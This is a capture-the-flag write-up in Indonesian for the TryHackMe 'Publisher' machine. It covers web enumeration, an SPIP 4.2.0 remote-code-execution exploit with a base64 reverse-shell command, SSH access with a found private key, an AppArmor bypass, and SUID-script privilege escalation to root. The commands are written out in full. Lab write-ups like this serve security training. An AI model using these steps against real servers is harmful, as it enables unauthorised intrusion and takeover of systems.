# Publisher — TryHackMe Writeup

target : publisher  
difficulty : easy  
platform : thm  

---

## recon

dimulai seperti biasa dengan nmap buat lihat service yg kebuka

```bash
nmap -sC -sV -T4 10.49.133.203
```



hasil:
- 22 → ssh  
- 80 → http  

karna ada web, jelas attack surface utama di situ, ssh skip dulu

---

## enumerasi web

langsung buka di browser:


keliatan ini pake **SPIP CMS**

biar ga nebak-nebak, sambil browsing w jalanin gobuster:

```bash
gobuster dir -u http://IP -w directory-list-2.3-small.txt -b 404,403
```



dapet:
- `/images`
- `/spip`

langsung keliatan `/spip` ini menarik → pivot ke situ  
scan awal w stop karena wordlist gede banget, lanjut fokus ke endpoint ini

---

## enumerasi /spip

```bash
gobuster dir -u http://IP/spip/ -w common.txt -b 404,403
```



dapet banyak dir, setelah di cek 1 per 1 ditemukan :

```
/spip/local/config.txt
```

---

## version leak

```bash
http http://IP/spip/local/config.txt
```



isi nya:

```
spip(4.2.0)
```

ini udah jackpot karena:
> ga perlu fingerprint manual, version langsung dikasih

---

## cari exploit

```bash
searchsploit spip 4.2.0
```



dapet:
```
SPIP 4.2.0 - Remote Code Execution
```

langsung mirror:

```bash
searchsploit -m php/webapps/51536.py
```

---

## analisis poc (singkat)

inti exploit:
- ambil csrf token  
- kirim payload ke parameter `oubli`  
- server salah handle → php execute command  

---

## validasi rce

test simple:

```bash
python3 51536.py -u http://IP/spip -c "sleep 5"
```

delay ke-detect → berarti:

> blind RCE confirmed

---

## reverse shell

payload direct gagal (classic quoting issue + shell problem)

solusi:
> encode payload → decode di target → execute

```bash
python3 51536.py -u http://IP/spip -c "echo BASE64 | base64 -d | bash"
```

dapet shell 

---

## pivot ke ssh

daripada ngandelin revshell terus, w cari credential / key

ketemu:

```
/home/think/.ssh
```

langsung login:

```bash
ssh -i id_rsa think@IP
```


---

## user flag

```bash
cat user.txt
```



---

# privesc

berdasarkan hint room, ada apparmor  
tapi sebelum kesana, w cari dulu sesuatu yg mencurigakan

---

## enumerasi suid

```bash
find / -perm -4000 -type f 2>/dev/null
```



dapet:

```
/usr/sbin/run_container
```

ini langsung keliatan “aneh”  
bukan binary standard biasa

---

## analisis binary

pas dijalanin:

```bash
/usr/sbin/run_container
```

ternyata dia nge-execute script:

```
/opt/run_container.sh
```

## kenapa ini bahaya?

- script dijalankan sebagai root  
- tapi bisa dipicu oleh user biasa  

👉 ini langsung indikasi privesc

---

## masalah

pas coba edit file:

```bash
nano /opt/run_container.sh
```

gagal write meskipun keliatan writable

👉 kemungkinan:
> kena apparmor

---

## analisis apparmor

cek profile:

```
/etc/apparmor.d/usr.sbin.ash
```



keliatan:
- banyak path di deny  
- `/opt` kena block  
- `/tmp` juga  

tapi:
- `/var/tmp` ga terlalu dibatasi  
- mode = complain  

👉 ini celah

---

## bypass apparmor

copy bash ke path yg ga terlalu di restrict:

```bash
cp /bin/bash /var/tmp/bash
/var/tmp/bash -p
```

👉 sekarang shell keluar dari constraint apparmor

---

## exploit (read flag dulu)

balik lagi ke script:

```bash
nano /opt/run_container.sh
```

tambah:

```bash
cat /root/root.txt
```

jalanin:

```bash
/usr/sbin/run_container
```

dapet:

```
3a4225cc9e85709adda6ef55d6a4f2ca
```



---

## full root shell (opsional)

kalo mau full control:

ubah jadi:

```bash
/bin/bash -p
```

jalanin lagi:

```bash
/usr/sbin/run_container
```

👉 dapet root shell



---

## insight

- version leak = entry point paling murah  
- RCE blind butuh teknik tambahan (delay / base64)  
- revshell bukan tujuan akhir → ssh lebih stabil  
- SUID + script eksternal = red flag besar  
- apparmor bisa dibypass kalau ada path yg ga di-restrict  
- privesc sering dari misconfig, bukan exploit kompleks  
